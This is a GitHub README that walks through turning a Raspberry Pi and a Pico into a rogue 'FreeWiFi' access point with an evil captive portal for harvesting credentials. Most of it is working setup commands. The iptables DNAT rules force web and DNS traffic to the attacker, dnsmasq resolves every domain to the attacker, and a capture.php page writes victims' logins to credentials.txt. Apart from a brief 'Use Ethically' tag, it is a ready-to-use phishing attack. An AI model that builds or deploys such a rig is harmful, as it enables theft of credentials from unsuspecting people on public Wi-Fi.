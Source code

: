 # WiFi-Pinapple  *Use Ethically*
Step-by-Step guide to create a wifi-pinapple using raspberry pi with Evil Portal feature.
You have to MANUALLY set up the IP, Gateway and DNS for the victim test device as in this setup i have set the IP assign to MANUAL. Check out the `Issues` at the bottom of this readme file guide.
If you dont get redirected to the evil page when opening any http/https website go to the ip `192.168.1.2/` manually and click on portal, the evil page will load. If you want to redirect then check if `iptables` is set correctly. this project is in contineous improvement but the basic Attack simulation works!!

---
## Devices i used
- Raspberry Pi Zero 2W
- Raspberry Pi Pico WH
- TP Link AC600 T2U Plus
- ssd1306 Oled module

---
## Devices Setup
### Zero 2W
Install raspberry pi os lite 32 bit and configure the wifi and ssh when flashing the image to the sd card in the raspberry pi official imager tool. Then connect to the pi using ssh from your PC.
Once you have booted the pi. do `sudo apt update && sudo apt upgrade -y` to update the system and packages. I will use an external wifi adapter as wlan1 (TP Link AC600 T2U plus).
Install these before continuing, ` sudo apt-get install dnsmasq apache2 php libapache2-mod-php -y`

#### TP link ac600 driver install
- First, `sudo apt update && sudo apt install -y build-essential raspberrypi-kernel-headers git dkms` and then reboot.
- download the github driver: ` sudo git clone https://github.com/aircrack-ng/rtl8812au.git`
- cd rtl8812au
- Now clean make to ensure no conflicting processes. `sudo make clean`
- Now `sudo make && sudo make install` to install the driver. *[NOTE: This takes a while, approx. 20-30 mins, don't worry\]* once done, reboot the pi and ensure by checking `iwconfig` or `ip addr show wlan1`.

### Pico WH
*[NOTE: Follow the `picoWH setup` file in this directory to setup AP for Wifi pinapple Evil portal feature\]*

### Configure wlan1 for Evil Portal
setup the wlan1 for static ip address and we will setup the landing page after redirections to our evil portal ip address to harvest credentials. In this project i have immitated a public wifi with free access.</br>
Connect the wlan1 to the pico's AP, `sudo nmcli device wifi connect "FreeWiFi" ifname wlan1`. </br>

Setup static ip for wlan1 :

- sudo nmcli connection modify "FreeWiFi" ipv4.addresses 192.168.1.2/24
- sudo nmcli connection modify "FreeWiFi" ipv4.gateway 192.168.1.1
- sudo nmcli connection modify "FreeWiFi" ipv4.dns 192.168.1.2
- sudo nmcli connection modify "FreeWiFi" ipv4.method manual
- sudo nmcli connection up "FreeWiFi"

#### Redirection and Evil Portal
- Clear duplicates and existing rules in `iptables`:
`sudo iptables -t nat -F`
`sudo iptables -F`
- Enable IP forwarding:
`sudo sysctl -w net.ipv4.ip_forward=1`
`sudo sh -c "echo 'net.ipv4.ip_forward=1' >> /etc/sysctl.conf"`
- Add rules:</br>
```text
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.1.2:80
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j DNAT --to-destination 192.168.1.2:80
sudo iptables -t nat -A PREROUTING -i wlan1 -p udp --dport 53 -j DNAT --to-destination 192.168.1.2:53
sudo iptables -t nat -A POSTROUTING -o wlan1 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -o wlan1 -j ACCEPT
```
- Save:
`sudo mkdir -p /etc/iptables`
`sudo sh -c "iptables-save > /etc/iptables/rules.v4"`
- Enable persistence by `sudo apt install -y netfilter-persistent iptables-persistent` (click yes to overwrite the exixting iptable)
- You can verify by `sudo iptables -t nat -L -v -n` & `cat /etc/iptables/rules.v4`, if something is wrong go over the above steps again.

#### Configure Dnsmasq
Power off the pico before you do this step.</br>
Edit `dnsmasq.conf` and add the below lines:</br>
```text
interface=wlan1
dhcp-range=192.168.1.100,192.168.1.200,12h
address=/portal.local/192.168.1.2
address=/#/192.168.1.2
no-resolv
server=8.8.8.8
```
Now restart the dnsmasq, `sudo systemctl restart dnsmasq`.

#### Configure Apache2

- sudo systemctl enable apache2
- sudo systemctl start apache2
- sudo chown -R www-data:www-data /var/www/html
- sudo chmod -R 755 /var/www/html

Now save all the `files` from the portal folder in this repo to `/var/www/html/portal`. Now again set the below permissions to the portal dir:</br>
```text
sudo chown www-data:www-data /var/www/html/portal/capture.php
sudo chmod 644 /var/www/html/portal/capture.php
sudo touch /var/www/html/portal/credentials.txt
sudo chown www-data:www-data /var/www/html/portal/credentials.txt
sudo chmod 664 /var/www/html/portal/credentials.txt
```
Finally power the pico again and reconnect wlan1: `sudo nmcli device wifi connect "FreeWiFi" ifname wlan1`

---

Issues: 
- After connecting to the rogue AP on the victim test device ensure you set up the IP, Gateway and DNS yourself as in this project i have set the *dhcp to manual*.
- If its not redirecting to the evil portal page for harvesting credentials page (index.html on the apache server). Then ensure you have set the iptables correctly.
- You can fork this repo or open a new Issue.
